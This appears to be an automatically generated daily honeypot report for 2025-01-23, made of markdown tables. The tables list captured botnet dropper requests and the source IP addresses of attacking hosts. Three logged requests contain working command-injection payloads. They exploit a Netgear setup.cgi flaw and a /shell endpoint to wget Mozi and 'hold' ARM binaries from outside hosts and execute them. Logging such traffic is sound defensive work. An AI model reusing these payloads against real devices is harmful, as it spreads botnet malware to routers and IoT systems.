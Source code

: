 ```yaml
---
title: "Report: 2025-01-23 "
date: 2025-01-23
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-01-23
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)



## botnet_dropper_behaviour

|    | remote_addr    | request                                                                                                                                                                                                                   |
|---:|:---------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 185.196.10.129 | GET /shell?cd+/tmp;rm+holdarm+hold.arm7;wget+http:/\x5C/193.143.1.66/bins/hold.arm7;chmod+777+hold.arm7;./hold.arm7+hold.jaws;wget+http:/\x5C/193.143.1.66/bins/hold.arm;chmod+777+hold.arm;./hold.arm+hold.jaws HTTP/1.1 |
|  1 | 117.213.82.239 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.213.82.239:56175/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                             |
|  2 | 45.164.177.181 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.164.177.181:10220/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                             |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   106 | 193.41.206.36   |
|   1 |                    45 | 35.89.137.11    |
|   2 |                    44 | 92.255.57.58    |
|   3 |                    38 | 146.19.24.168   |
|   4 |                    36 | 78.153.140.151  |
|   5 |                    33 | 5.181.190.248   |
|   6 |                    30 | 78.153.140.149  |
|   7 |                    29 | 185.196.220.253 |
|   8 |                    23 | 46.19.138.234   |
|   9 |                    18 | 188.237.58.92   |
|  10 |                    18 | 179.43.191.146  |
|  11 |                    17 | 157.230.29.24   |
|  12 |                    15 | 80.82.77.202    |
|  13 |                    14 | 95.214.55.43    |
|  14 |                    12 | 152.42.218.247  |
|  15 |                    12 | 95.214.53.198   |
|  16 |                    12 | 204.188.228.86  |
|  17 |                    12 | 209.38.93.88    |